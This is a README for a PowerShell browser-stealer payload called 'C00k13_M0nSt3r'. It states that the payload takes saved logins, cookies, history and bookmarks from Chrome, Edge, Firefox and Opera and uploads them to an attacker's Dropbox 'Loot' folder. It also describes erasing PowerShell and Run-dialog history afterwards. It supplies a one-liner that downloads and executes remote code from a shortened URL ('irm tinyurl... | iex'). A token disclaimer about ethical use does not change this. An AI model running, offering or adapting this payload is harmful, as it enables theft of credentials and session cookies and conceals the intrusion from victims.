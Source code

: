 # C00k13_M0nSt3r

## Overview
This script is designed to extract saved logins, cookies, and browser data from Google Chrome, Microsoft Edge, Mozilla Firefox, and Opera browsers. The extracted data is then uploaded to Dropbox in a new folder named "Loot," followed by a subfolder named after the username associated with the data.

## Features
- Extracts saved logins and cookies from Google Chrome.
- Retrieves saved logins and cookies from Mozilla Firefox.
- Captures browser history and bookmarks from Chrome, Edge, Firefox, and Opera.
- Uploads the extracted data to Dropbox for remote access.

## Usage
1. Update the Dropbox token in the script by replacing `'INSERT-YOUR-DROPBOX-TOKEN'` with your actual Dropbox token.
2. Run the script in PowerShell using the provided payload: $db = 'INSERT-YOUR-DROPBOX-TOKEN'; irm tinyurl.com/3tm7msr7 | iex

## Supported Platforms
- Windows 10/11

## Instructions
1. The script grabs Google Chrome data (Login Data, Cookies, and Local State) and compresses it into a zip file.
2. Firefox data (cookies, saved logins) is searched for and compressed into a separate zip file.
3. Browser history and bookmarks are collected from Chrome, Edge, Firefox, and Opera and saved in a file named `--BrowserData.txt`.
4. All extracted data is uploaded to Dropbox using the provided Dropbox token.

## Credits
- Browser history and bookmarks extraction code adapted from [I-Am-Jakoby's browserData.ps1 script](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/blob/main/Payloads/Flip-BrowserData/browserData.ps1).

## Version
1.0

## Author
Created By: 0D1NSS0N

## Cleanup
After data exfiltration, the script performs cleanup by deleting temporary files, removing run dialog and PowerShell history, and emptying the recycling bin.

## Disclaimer
Use this script responsibly and only for ethical purposes. Unauthorized access and data exfiltration are against the law.

**Note:** Please be cautious while handling sensitive information and respect privacy and legal regulations.

